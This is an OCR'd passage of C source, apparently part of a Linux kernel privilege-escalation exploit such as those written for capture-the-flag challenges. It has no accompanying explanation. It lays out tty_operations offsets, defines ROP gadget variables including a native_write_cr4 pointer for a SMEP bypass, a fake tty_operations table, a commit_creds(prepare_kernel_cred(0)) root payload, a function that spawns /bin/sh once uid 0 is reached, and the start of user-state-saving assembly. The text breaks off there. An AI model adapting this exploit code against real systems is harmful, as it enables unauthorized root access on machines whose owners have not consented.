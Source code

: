 ```cpp
    void (*throttle)(struct tty_struct *);                                          /*   120     8 */
    /* --- cacheline 2 boundary (128 bytes) --- */
    void (*unthrottle)(struct tty_struct *);           /*   128     8 */
    void (*stop)(struct tty_struct *);                 /*   136     8 */
    void (*start)(struct tty_struct *);                /*   144     8 */
    void (*hangup)(struct tty_struct *);               /*   152     8 */
    int (*break_ctl)(struct tty_struct *, int);        /*   160     8 */
    void (*flush_buffer)(struct tty_struct *);         /*   168     8 */
    void (*set_ldisc)(struct tty_struct *);            /*   176     8 */
    void (*wait_until_sent)(struct tty_struct *, int); /*   184     8 */
    /* --- cacheline 3 boundary (192 bytes) --- */
    void (*send_xchar)(struct tty_struct *, char);                           /*   192     8 */
    int (*tiocmget)(struct tty_struct *);                                    /*   200     8 */
    int (*tiocmset)(struct tty_struct *, unsigned int, unsigned int);        /*   208     8 */
    int (*resize)(struct tty_struct *, struct winsize *);                    /*   216     8 */
    int (*set_termiox)(struct tty_struct *, struct termiox *);               /*   224     8 */
    int (*get_icount)(struct tty_struct *, struct serial_icounter_struct *); /*   232     8 */
    const struct file_operations *proc_fops;                                 /*   240     8 */

    /* size: 248, cachelines: 4, members: 31 */
    /* last cacheline: 56 bytes */
};

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

unsigned long membase=0;
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
unsigned long native_write_cr4;
unsigned long xchgeaxesp;
unsigned long popraxret;
unsigned long base;
struct Chunk ch1; 
struct Chunk2 ch2;

void get_root_payload(void)
{
    commit_creds(prepare_kernel_cred(0));
}

void get_shell()
{
    if(getuid()!=0){
        puts("Get root failed!!!");
        exit(0);
    }
    system("/bin/sh");
}

struct tty_operations fake_ops;

char fake_procfops[1024];

unsigned long user_cs, user_ss, user_rflags;

static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
```